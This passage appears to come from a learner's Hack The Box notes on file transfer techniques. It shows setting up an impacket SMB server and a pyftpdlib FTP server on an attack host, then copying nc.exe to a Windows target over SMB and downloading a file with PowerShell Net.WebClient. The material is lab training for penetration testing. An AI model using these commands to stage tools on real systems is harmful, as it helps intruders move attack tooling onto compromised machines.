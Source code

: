 Spin up smb server with username and password:

```shell-session
jadu101@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

mount smb server with username and pass:

```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```

### FTP Download

Install **pyftpdblib**:

```shell-session
jadu101@htb[/htb]$ sudo pip3 install pyftpdlib
```

Set up Python3 FTP server:

```shell-session
jadu101@htb[/htb]$ sudo python3 -m pyftpdlib --port 21

[I 2022-05-17 10:09:19] concurrency model: async
[I 2022-05-17 10:09:19] masquerade (NAT) address: None
[I 2022-05-17 10:09:19] passive ports: None
[I 2022-05-17 10:09:19] >>> starting FTP server on 0.0.0.0:21, pid=3210 <<<
```

Powershell **Net.WebClient** could be used to download file from attacking FTP server:

```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```


## Windows to Linux

Sometimes we must upload files from target machine to attack host.
